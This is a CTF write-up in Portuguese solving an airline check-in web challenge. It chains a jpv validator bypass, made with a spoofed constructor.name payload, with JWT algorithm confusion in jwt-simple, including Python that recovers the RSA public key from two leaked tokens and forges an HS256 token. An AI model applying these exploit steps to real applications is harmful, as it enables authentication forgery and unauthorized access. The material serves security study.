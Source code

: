 ## Overview

Temos uma aplicação web de check-in em uma companhia aérea. Existem dois endpoints: /checkin e /upgrades.

A função que recupera a flag é bem óbvia e é mostrada no código a seguir, que é uma requisição do tipo POST para /upgrades/flag:

```js
router.post('/flag', [getLoyaltyStatus], function(req, res, next) {
  if (res.locals.token && res.locals.token.status == "gold") {
    var response = {msg: config.flag };
  } else {
    var response = {msg: "You do not qualify for this upgrade at this time. Please fly with us more."};
  }
  res.json(response);
});
```

Com isso, percebe-se que uma manipulação no token de acesso já nos daria acesso a ela.

Observando as dependências da aplicação, vemos uma versão vulnerável da biblioteca de verificação JPV (JSON Pattern Validator) e também uma versão de jwt-simple desatualizada. Explorando as vulnerbilidades é possível forjar um JWT, alterando o status do passageiro para "gold" e permitindo o acesso à flag.

OBS: ao reproduzir o desafio localmente, é necessário criar chaves RSA pública e privada para colocar no arquivo config.js (já que no original elas vinham censuradas devido ao objetivo do desafio). Utilize as funções abaixo para recriá-las e copie seus valores para o arquivo de configuração:

```
openssl genrsa -out private.pem 2048
openssl rsa -in private.pem -pubout -out public.pem
```

## Vulnerabilidade JPV 2.0.1

A biblioteca jpv tem como intuito validar inputs de usuário comparando com patterns definidos a priore.

Os seguintes padrões são definidos:

```js
const pattern = {
  firstName: /^\w{1,30}$/,
  lastName: /^\w{1,30}$/,
  passport: /^[0-9]{9}$/,
  ffp: /^(|CA[0-9]{8})$/,
  extras: [
    {sssr: /^(BULK|UMNR|VGML)$/},
  ],
};
```

Porém, na linha 42 de checkin.js existe a verificação ```data["extras"][e]["sssr"] == "FQTU"```
que caso seja verdadeira vaza um token JWT.

Para satisfazer essa verificação e bypassar a validação do jpv, exploramos a vulnerabilidade definida em: https://github.com/manvel-khnkoyan/jpv/issues/6.

A validação do campo extras é feita com um pattern que espera um array de objetos com sssr cujo valor seja uma das strings BULK, UMNR ou VGML. Na prática, em jpv@2.0.1 a verificação de "é array?" foi implementada de forma insegura: a biblioteca checa algo como ```obj.constructor.name === 'Array'``` (ou similar), o que é contornável porque, em JavaScript, o campo constructor de um objeto é mutável (ou é possível fornecer um objeto com ```constructor.name = "Array"```).

Utilzamos um payload como o seguinte:

```js
    "firstName": "Algum",
    "lastName": "Nome",
    "passport": "123456789",
    "ffp": "CA12345678",
    "extras": {
        "x": {
            "sssr": "FQTU"
        },
        "constructor": {
            "name": "Array"
        }
    }
```

Com isso conseguimos vazar tokens diferentes apenas alterando o valor do campo "passport" ou "ffp".

## Vulnerabilidade jwt-simple (algorithm confusion / key misuse)

O JWT tem um campo "alg" no header que indica o algoritmo usado na assinatura (RS256, HS256, etc). RS256 usa RSA (chave privada para assinar, pública para verificar). Já o HS256 usa HMAC-SHA256 (um segredo simétrico compartilhado). No caso desse desafio, está sendo utilizada o algoritmo RS256 como é possível verificar no arquivo ckeckin.js:

```js
function createToken(passport, frequentFlyerNumber) {
  var status = isSpecialCustomer(passport, frequentFlyerNumber) ? "gold" : "bronze";
  var body = {"status": status, "ffp": frequentFlyerNumber};
  return jwt.encode(body, config.privkey, 'RS256');
}
```

Porém, em upgrade.js o token é decodificado assim:

```js
function getLoyaltyStatus(req, res, next) {
  if (req.headers.authorization) {
    let token = req.headers.authorization.split(" ")[1];
    try {
      var decoded = jwt.decode(token, config.pubkey);
    } catch {
      return res.json({ msg: 'Token is not valid.' });
    }
    res.locals.token = decoded;
  }
  next()
}
```

Ou seja, ```jwt.decode(token, key)``` está sendo chamado sem restringir o algoritmo e a chave utilizada é config.pubkey (a chave pública). Em jwt-simple@0.5.2, se o token declara "alg: HS256", a biblioteca tratará config.pubkey como o segredo para HMAC e aplicará HMAC-HS256 para verificar o token, o que é aceitável para jwt-simple, já que ela não valida se a chave é adequada ao algoritmo declarado.

Assim, se soubermos a chave pública (ou a reconstruirmos), podemos criar um JWT com "alg: HS256" e assinar com HMAC-SHA256(secret = PEM_pubkey). O servidor usará o mesmo config.pubkey na verificação e aceitará o token, pois o algoritmo no header foi HS256. Assim transformamos um token de verificação assimétrica (RS256) num token simétrico (HS256) que podemos fabricar localmente.

Continuando, com dois tokens vazados temos recursos para calcular a chave pública a partir da assinatura dos tokens. O algoritmo RS256, após realizar algumas operações de hashing sobre os headers e payload do token em base64 e fazer o padding utilizando o algoritmo PKCS#1 v1.5 (iremos chamar o valor resultante de "pt"), realiza a clássica operação RSA com a assinatura:

```
sig == pt^d (mod n)  // d = expoente privado
```

A verificação é feita com ```sig^e == pt (mod n)```.

Para encontrar o valor do módulo n e recuperar a chave pública original, usamos uma função auxiliar get_magic() com valores de "e" arbitrários (nesse caso testamos apenas os valores mais comuns e encontramos que foi utilizado o clássico valor 65537):

```python
def get_magic(jwt_token: str, e: int) -> gmpy2.mpz:
    """
    Calcula o valor sig**e - pt para um JWT assinado com RS256.
    """
    header, payload, signature = jwt_token.split(".")
    raw_signature = urlsafe_b64decode(f"{signature}==")
    raw_signature_int = gmpy2.mpz(bytes_to_long(raw_signature))

    padded_msg = pkcs1_v1_5_encode(f"{header}.{payload}".encode(), len(raw_signature))
    padded_int = gmpy2.mpz(bytes_to_long(padded_msg))

    return gmpy2.mpz(pow(raw_signature_int, e) - padded_int)
```

Temos assim um possível k*n (sendo k um número inteiro qualquer). Com os dois tokens diferentes conseguimos tirar o gcd e descobrir o valor do módulo n, tornando possível a recuperação da chave pública:

```python
pubkey = RSA.construct((int(N), int(e)))
pem_rsa = pubkey.export_key()
print("\nChave pública PEM:")
print(pem_rsa)
```

Agora com a chave pública podemos montar o nosso token final. Para conseguir utilizar a chave pública sem saber a chave privada, mudamos o algoritmo de criptografia de RS256 para HS256 no header do JWT.

```{"alg": "HS256", "typ": "JWT"} ```

Testamos também mudar o "alg" para "none" como descrito em https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries, porém sem sucesso.

Assim, utilizamos a chave RSA do formato PEM como string literal para assinar o token forjado com o algoritmo HS256 e alteramos o payload para o status "gold":

```python
message = f"{header_b64}.{payload_b64}"
signature = hmac.new(pem_rsa, message.encode(), hashlib.sha256).digest()
signature_b64 = b64url_encode(signature)
jwt_hs_token = f"{message}.{signature_b64}"
```

Com isso conseguimos forjar um token JWT que passa por todas as verificações e retorna a flag ao enviá-lo para o endpoint /upgrades/flag com uma requisição POST.

```python
headers = {"Authorization": f"Bearer {jwt_hs_token}"}
res = requests.post(f"{URL_BASE}/upgrades/flag", headers=headers).json()
print("\nResposta do servidor:")
print(res)
# FLAG{flag_teste}
```
